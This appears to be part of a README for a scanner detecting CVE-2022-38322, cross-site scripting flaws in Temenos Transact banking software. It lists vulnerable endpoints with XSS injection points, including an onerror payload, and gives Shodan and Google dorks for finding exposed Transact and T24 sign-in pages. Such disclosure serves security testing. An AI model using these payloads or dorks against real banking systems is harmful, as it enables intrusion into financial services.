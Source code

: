 ```bash
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/svgInstall.jsp?skin=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/txnrequest.jsp?usrRole=XSS&routineArgs=XSS&compId=XSS&compScreen=XSS&user=XSS&skin=XSS
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/genrequest.jsp?routineName=XSS&routineArgs=XSS&skin=XSS&compId=XSS&compScreen=XSS&contextRoot&user=XSS&formToken
[CVE-2022-38322] [http] [high] https://transact.bank.local/jsps/helprequest.jsp?url=XSS%27)%22+onerror=%22confirm(%27XSS%27)%22+test=%22
```

## Dorks

In most cases Temenos Transact is an internal application that can't be accessed through the internet but some instances are being leaked and can be found using the following dorks

### Through Shodan: 

```
http.title:"transact sign in"
```
or 

```
http.title:"t24 sign in"
```

tttt

```
http.title:"transact sign in"

http.title:"t24 sign in"
```

### Through Google:

```
inurl:"servlet/BrowserServlet"
```

or 

```
intitle:"t24 sign in"
```

or 

```
intitle:"transact sign in"
```

tttt

```
inurl:"servlet/BrowserServlet"

intitle:"t24 sign in"

intitle:"transact sign in"
```

